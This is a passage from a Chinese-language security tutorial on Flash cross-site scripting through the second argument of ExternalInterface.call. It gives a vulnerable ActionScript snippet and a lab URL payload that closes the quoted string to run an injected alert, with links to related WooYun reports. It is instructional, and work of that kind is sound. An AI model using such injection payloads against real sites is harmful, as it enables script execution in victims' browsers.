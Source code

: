 和预期结果一样。

**Flash 缺陷参数-ExternalInterface.call(参数二)**

有时候当反编译 swf 之后，会发现可控的参数的输出位置在 ExternalInterface.call 函数的第二个参数，方法和思路与第一个参数的时候类似。

Wooyun 里面相关的例子：

[WooYun: [腾讯实例教程] 那些年我们一起学 XSS - 16\. Flash Xss 进阶 [ExternalInterface.call 第二个参数]](http://www.wooyun.org/bugs/wooyun-2012-016598)

[WooYun: Flash 应用安全系列[3]--WordPress 反射型跨站(0day)](http://www.wooyun.org/bugs/wooyun-2013-017189)

Flash 文件：

```
var a:String = root.loaderInfo.parameters.par
if(ExternalInterface.available){
    ExternalInterface.call("alert",a)
} else {
    trace(100)
}
stop()

```

Flash 文件中的 a 是从外部获取的参数，此处外部获取的参数 par 赋值给了 a，作为输出点输出到了 ExternalInterface 的第二个参数的位置，此处相对于第一个参数的不同之处是，此处的输出点在引号中，因此此处我们需要把引号闭合掉。根据上面两边文章，可以发现闭合引号使用的方法是\”这样会被转义为\”，”就被吃掉了。

根据 ExternalInterface.call 的调用原型：

```
try { __Flash__toXML(函数名("参数 1")) ; } catch (e) { "<undefined/>"; }

```

我们将参数输入如下的 url：

```
http://192.168.4.70/ExternalInterface_second.swf?par=1111\%22),al)}catch(e){alert(1000)}// 
```

分析应该执行如下：

```
try{
  __Flash__toXML(alert(“1111\\”),al
}
catch(e){
  alert(1000)
}

```

如此下来应该就会弹出两个框，一个为 1111\，另外一个为 1000。 运行结果，弹出 1111\：

![enter image description here](img/img8_u16_png.jpg)
